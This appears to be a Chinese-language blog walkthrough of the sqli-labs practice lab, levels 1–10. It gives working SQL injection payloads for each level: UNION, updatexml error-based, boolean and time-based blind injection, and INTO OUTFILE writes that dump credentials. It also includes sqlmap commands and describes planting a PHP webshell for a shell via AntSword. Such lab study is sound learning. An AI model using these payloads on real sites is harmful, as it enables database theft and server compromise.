感觉sql注入学习的还是不太好，特来sqli-labs补一补
less-1
字符型'注入
判断注入类型：
1 | ?id=1 and 1=1 |
判断字符类型：
1 | ?id=1' |

1和2是一对的，3和4是一对的，5是我们写的，5右边的字符4就是实际的闭合方式
注入过程：
1 | ?id=1' order by 3--+ |
源码：
1 | $id=$_GET['id']; |
less-2
数字型注入
判断注入类型：
1 | ?id=1 and 1=1 #正常回显 |
注入过程：
1 | ?id=1 order by 3 |
源码：
1 | $id=$_GET['id']; |
区分字符型or数字型
假设字符型注入的类型是单引号
如果输入：?id=1' --+不报错，正常回显，一般是字符型；如果输入：?id=1' --+报错，那就有可能是数字型，且输入?id=1 --+不报错，那就是数字型
如果字符型注入的类型不止是单引号
如果输入：?id=1' --+报错，可能是字符型（除单引号的其他字符）或者数字型；输入?id=1 --+报错，那就肯定不是数字型
好吧，在我测试完less-3后，发现上面的区分方法纯属扯淡，好像完全不对，因为数据库处理的过程并非是我想的那样😂
如何判断字符还是数字型注入：
- 用减法判断：利用id=2-1 如果返回的是id=1的结果，则是数字注入，否则是字符注入
- 用 and 1=1 和 and 1=2 来判断，两者都能正常回显则是字符型注入，否则是数字型注入
解释第一种方法：如果是字符型那么它不会进行2-1这个运算，它只会输出id=2的结果，如果是数字型，那么它会计算出结果，回显出id=1
第二种方法：如果是单引号字符型：比如id=1 and 1=1它也是只会计算id=1的值，后面and 1=1和and 1=2它只会当作字符串，所以只要是字符型它都能正常回显1的结果；而数字型不一样，1=1是正确的，他就会输出id=1的值，但是1=2不正确，它就不会输出id=1的结果
如何判断哪种字符型注入：
一般常见闭合方式都是'和"或者和其他字符混合出现，一般使用id=1'和id=1"根据报错的结果判断是哪种字符型
解释：比如说是字符'闭合，如果使用id=1'，结果是两种都会报错，但是如果使用id=1"，并不会报错，即使使用id=1" --+这个也不会报错，因为它的select语句是id=' 1" --+ '，它会把1" --+当成字符串，—+注释符也不会起作用
同理如果是字符"闭合，如果使用id=1'，结果是两种都不会报错，即使使用id=1' --+这个也不会报错，道理同上；但是如果使用id=1"，却会报错，因为闭合方式包含了"字符，而检测到”后却没有检测到
但如果说是字符')闭合，使用id=1'会报错，使用id=1'--+也会报错，因为检测到1后的单引号检测不到右括号，但是使用id=1"或者id=1" --+或者id=1)或者id=1) --+这四种都不会报错，因为检测不到单引号，只会把他们当成普通字符串
闭合方式是字符")同理
总结：如果是混合字符x闭合，只有当id=1x报错，但id=1x --+不报错，才能证明闭合方式是x
—+什么时候起作用：
—+当我们找到正确的闭合方式后，—+才会起作用，如果你的闭合字符'不属于查找语句的闭合字符")（里面的任何一种字符都不属于），那么—+根本不会起作用（以)闭合也不起作用，因为先检测双引号），但可以正常查询出结果；但是如果你的闭合字符"是闭合字符")中最左边的字符，比如注入id=1" --+这种就会报错；只有你的闭合字符与查找语句的闭合字符完全一致时，—+才起作用
less-3
字符型')‘注入
判断注入类型：
1 | ?id=1 and 1=1 |
判断字符类型：
1 | ?id=1' |

注入过程：
1 | ?id=1') --+ |
源码：
1 | $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1"; |
less-4
字符型")注入
判断注入类型：
1 | ?id=1 and 1=1 |
判断字符类型：
1 | ?id=1' #正常回显 |
注入过程：
1 | ?id=1") --+ |
less-5
报错注入（单引号）
判断注入类型：
1 | ?id=1 and 1=1 |
可以看到回显了，但没完全回显，因为数据不太对，这种属于报错注入，虽然是报错注入，但两种都能回显依旧证明是字符型
1 | ?id=1' |

可以判断是'注入，如果正常回显，可以使用"尝试
union和and
使用uion联合注入时，通常一般令id=-1，使其不查询，而and通常是让后面的命令执行，所以前面的id必须是可以查到的id，常令id=1
报错注入用不了union联合查询，是用and进行拼接，从而执行updatexml函数，然后使用updatexml函数触发报错，把我们想要得到的内容通过报错触发
1 | ?id=1' and updatexml(1,concat(0x7e,version()),3) --+ |
0x7e 等价于 ~，1 - 第一个参数，表示XML文档，3 - 表示XPath表达式，第一个参数和第三个参数都可以随便填，只要能触发报错
updatexml使用 XPath 表达式解析 XML，如果 XPath 语法错误，会返回错误信息（可用于数据泄露）。
concat和group_concat区别：
CONCAT（普通字符串拼接）：将 多个字符串 合并成一个字符串
GROUP_CONCAT（分组拼接）：将 多行数据 的某个字段值合并成一个字符串
注入过程：
1 | ?id=1' and updatexml(1,concat(0x7e,database()),3) --+ |
limit offset,count 的含义：
比如limit 0,1 表示从第一行开始，查找一行返回结果；比如limit 0,2 表示从第一行开始，查找二行返回结果；limit 0,3 表示从第一行开始，查找三行返回结果；
比如limit 1,1 表示从第二行开始，查找一行返回结果；比如limit 1,2 表示从第二行开始，查找二行返回结果；limit 1,3 表示从第二行开始，查找三行返回结果；
源码：
1 | $sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1"; // 参数 $id 直接拼接进SQL语句 |
less-6
报错注入（双引号）
判断注入类型：
1 | ?id=1 and 1=1 |
字符型报错注入
1 | ?id=1" |
注入过程：
1 | ?id=1" and updatexml(1,concat(0x7e,database()),3) --+ |
源码：
1 | 文件读写注入$id = '"'.$id.'"'; |
less-7
文件读写注入
判断注入类型：
1 | ?id=1 and 1=1 |
可以确定不是数字型注入
1 | ?id=1' |
报错了，但没有显示闭合方式，只能靠自己猜，唯一可以确定的就是闭合方式的最内层是单引号，加入—+注释后，还是不对，可以确定多个字符闭合，最里层的字符是单引号，没有好办法，只能一个一个尝试常见的闭合方式：
1 | ?id=1') --+ |
尝试到?id=1')) --+不再报错，证明闭合方式是'))
因为本题是文件读写注入，我们再学习一下into outflie命令：INTO OUTFILE 命令是用于将查询结果写入到一个文件中的 MySQL 查询语句。它可以将查询结果保存为文本文件，供进一步处理或导出使用。
语法：
1 | SELECT column1, column2, ... |
既然我们要把查询的结果写入mysql中有写入权限的目录，我们首先需要获取到目录：我们也只能在前几个关卡中得到路径，以less-1为例，注入：
1 | ?id=-1' UNION SELECT 1,@@basedir,@@datadir --+ |
@@basedir 是MySQL的系统变量，表示 MySQL的安装目录
@@datadir 是MySQL的系统变量，表示 数据库的存储路径
不过我们需要保证mysql具有写入权限，这个有一个关键参数secure_file_priv，我们向phpstudy_pro\Extensions\MySQL5.7.26\my.ini写入：
1 | secure_file_priv = |
使用show variables like '%secure%';查看该参数是否为空，不是null即可

1 | ?id=1')) order by 3 --+ |
找到列数后我们向里面写入文件，利用刚才获取到的目录，写入的语法是：?id=-1')) union select sql语句 into outfile '路径' --+
查表名：
1 | ?id=-1')) union select 1,2,database() into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\test.txt" --+ //目录要使用反双斜杠 |
查看写入test2.txt的内容：

查列名：
1 | ?id=-1')) union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users') into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\test3.txt" --+ |

查具体字段内容：
1 | ?id=-1')) union select 1,2,group_concat(username,':',password) from users into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\test4.txt" --+ |

getshell
不过上面的方式比较麻烦，那我们干脆写入一个一句话木马文件，通过蚁剑getshell：一般测试是不能写入后门文件的，我们这里先写一个phpinfo()测试下
1 | ?id=-1')) union select 1,2,"<?php phpinfo();?>" into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\php_info.php" --+ |

成功后我们写入木马文件：
即使显示报错，但在我们文件夹里发现已经被写入：

最后就是使用一键getshell：

源码：
1 | $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1"; |
less-8
判断注入类型：
1 | ?id=1 and 1=1 |
都没有报错，确定还是字符型
测试?id=1'，有报错，证明闭合方式最内层是单引号，加入--+测试，不再报错，证明闭合方式只有单引号
1 | ?id=1' order by 3 --+ |
查找出三列，但当我们查询数据库，发现不回显，尝试报错注入失败，但我们可以用上面的文件读写注入，这个是可以的
但我们还可以用一种新方法：布尔盲注
布尔盲注
介绍四个函数：
1 | ascii(str) # 返回字符串的ASCII码 |
这里的注入语句还是用and进行拼接，可以根据判断结果推测and后的语句是否正确
1 | #判断依据 |
下面开始判断：
1 | ?id=1' and length(database())=8 --+ #确定数据库长度是8 |
不过这样一位一位判断比较麻烦，我们使用sqlmap一把梭即可
1 | python sqlmap.py -u http://localhost:82/Less-8/?id=1' --batch |

存在布尔盲注和时间盲注
继续跑数据库名，表名和字段名，和字段内容：
1 | python sqlmap.py -u http://localhost:82/Less-8/?id=1 --batch --dbs #查询数据库 |
源码：
1 | $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; |
less-9
这里使用?id=1 and 1=1 和?id=1 and 1=1都回显，判断是字符型，但后面奇怪的是，不管尝试下面哪个闭合字符：
1 | ?id=1' |
都回显了，按道理来讲，至少应该有一种要么不回显，要么报错的，这里猜测不管我们输入的对不对，回显的结果都是you are in
面对这里注入，以上的注入方法都无效，我们只能使用时间盲注
时间盲注
用到的函数：
1 | if(条件,a,b) # 当条件为真返回a，否则返回b |
注入：
1 | ?id=1 and if(1,sleep(5),1) |
这里直接回显了，并没有延迟，说明是字符型；接下来困难的是判断类型，只能一种一种的尝试，哪种延迟了五秒，证明是哪种闭合；
1 | ?id=1' and if(1,sleep(5),1) --+ |
第一次尝试单引号，延迟了五秒，闭合方式即单引号
1 | ?id=1' and if(length(database())=8,sleep(5),1)--+ #数据库长度为8 |
因为一个一个字符判断起来很麻烦，我们通常用sqlmap跑
1 | python sqlmap.py -u http://localhost:82/Less-9/?id=1 --batch |

时间盲注？布尔盲注？
奇怪的是竟然还可以使用布尔盲注，有点乱。。。大概是使用?id=1' sleep(5)--+这样基于时间延迟的布尔注入？？？
但时间盲注也是基于时间延迟的，不过唯一可以确定的就是，可以使用布尔盲注的就一定可以使用时间盲注，反之不然，而且时间盲注基于页面的回显内容一直不变，而布尔盲注页面至少还会变化，根据变化从而判断
不管这么多，用sqlmap跑一下
1 | python sqlmap.py -u http://localhost:82/Less-9/?id=1 --batch --technique T --current-db |
以上是指定时间盲注，速度很慢，清除缓存后，指定布尔盲注，相对快了很多，不过不太懂本关是如何使用布尔注入的
源码：
1 | $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; |
less-10
这一关没有什么新颖的，就是闭合方式换成了双引号，测试延迟
1 | ?id=1" and if(1,sleep(5),1) --+ |
延迟五秒，确定了闭合方式双引号，只要多尝试几次闭合方式，就能试出来，后面就是用sqlmap跑，和上一关几乎一模一样
不过这里需要加上level，不设参数跑不出来：
1 | python sqlmap.py -u http://localhost:82/Less-10/?id=1 --batch --level 3 |
源码：
1 | $id = '"'.$id.'"'; |
虽然看起来很简单，不过总算系统的学习了下，下次继续学习less-11到less-20
宝剑锋从磨砺出，梅花香自苦寒来
参考文章：
https://www.cnblogs.com/ugnfc/p/18150775
https://blog.csdn.net/2301_76913435/article/details/145601627